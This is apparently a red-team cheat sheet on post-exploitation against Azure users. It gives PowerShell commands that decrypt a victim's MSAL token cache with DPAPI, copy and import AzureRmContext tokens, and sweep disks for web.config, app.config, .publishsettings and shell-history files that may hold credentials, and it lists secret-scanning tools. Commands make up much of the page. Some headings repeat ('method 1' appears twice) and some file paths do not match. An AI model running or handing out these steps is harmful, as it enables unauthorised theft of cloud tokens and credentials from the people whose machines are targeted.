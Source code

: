 # Exploitation
## Stealing Access tokens
- https://github.com/rvrsh3ll/TokenTactics
### User access tokens method 1
#### Save the AzureRmContext.json
```
cp %USERPROFILE%\.Azure\AzureRmContext.json C:\temp\AzureRmContext.json
```

#### Get the authenticated token for the user
```
Add-Type -AssemblyName System.Security; [Convert]::ToBase64String([Security.Cryptography.ProtectedData]::Unprotect((([Text.Encoding]::Default).GetBytes((Get-Content -raw "$env:userprofile\AppData\Local\.IdentityService\msal.cache"))), $null, [Security.Cryptography.DataProtectionScope]::CurrentUser))
```

#### Save the token into AzureRmContext.json
-  Open AzureRmContext.json file in a notepad and find the line near the end of the file title “CacheData”. It should be null.

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

### User access tokens method 1
#### Save azcontext
```
Save-AzContext -Path C:\Temp\AzureAccessToken.json
```

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

### Visual Studio Code
- Azure Cloud Service Packages (.cspkg)
- Deployment files created by Visual Studio.
- Possible other Azure services integration (SQL, storage, etc.)
- Through cspkg zip files for creds/certs.
- Search Visual Studio Public Directory ```<cloud project directory>\bin\debug\publish```

### Publish settings in files
- Look for file ```.publishsettings```
- Can contain a Base64 encoded Management Certificate or cleartext credentials
- Save "ManagementCertificate" section into a new .pfx file
- Search the user's Downloads directory and VS projects.

### Storage explorers
- Windows Credential Manager stores these credentials.
- Azure Storage Explorer for example has a built-in “Developer Tools” function that you can use to set breakpoints while loading the credentials allowing you to view them while unencrypted.

### Web config and App config files
-  ```Web.config``` and ```app.config``` files might contain creds or access tokens.
- Look for management cert and extract to ```.pfx``` like publishsettings files
```
sudo find / -name web.config 2>/dev/null
Get-ChildItem -Path C:\ -Filter app.config -Recurse -ErrorAction SilentlyContinue -Force
```

### Internal repositories
- Find internal repos (scan for port 80, 443 or Query AD and look for subdomains or hostnames as git, code, repo, gitlab, bitbucket etc)
- Tools for finding secrets
  - Gitleaks https://github.com/zricethezav/gitleaks
  - Gitrob https://github.com/michenriksen/gitrob
  - Truffle hog https://github.com/dxa4481/truffleHog
  
### Command history
- Look through command history
- ```~/.bash_history`` or ```%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt```
```
sudo find / -name .bash_history 2>/dev/null
Get-ChildItem -Path C:\ -Filter *ConsoleHost_history.txt* -Recurse -ErrorAction SilentlyContinue -Force
```
